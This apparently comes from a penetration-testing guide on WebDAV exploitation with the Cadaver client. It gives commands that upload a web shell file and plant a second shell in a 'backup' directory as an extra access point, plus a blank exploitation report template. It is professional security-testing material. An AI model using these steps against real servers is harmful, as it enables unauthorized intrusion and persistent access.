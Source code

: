 #### **Session Management Best Practices:**
```bash
# Document session start
!echo "Session started: $(date)" >> cadaver_log.txt

# Verify upload operations
put webshell.asp
ls | grep webshell.asp
# Confirm file appears in listing

# Create backup access points
mkcol backup
cd backup
put alternative_shell.asp
cd ..

# Clean exit with verification
ls
quit
```

---

## 📝 Professional Documentation Templates

### **📋 WebDAV Exploitation Report Template:**

```markdown
## WebDAV Manual Exploitation Report

**Target:** [target_system]
**WebDAV Path:** [webdav_url]  
**Exploitation Date:** [date]
**Tool Used:** Cadaver v[version]
**Tester:** [your_name]

### Authentication Details:
- **Username:** [username]
- **Password:** [password_or_hash]
- **Authentication Method:** [Basic/Digest/NTLM]

### Exploitation Process:

#### Phase 1: Connection Establishment
```bash
cadaver http://[target]/webdav
# Authentication successful: [timestamp]
```

#### Phase 2: File System Exploration
```bash
ls    # Directory listing results
pwd   # Current working directory: /webdav/
cd subdirectory  # Navigation testing
```
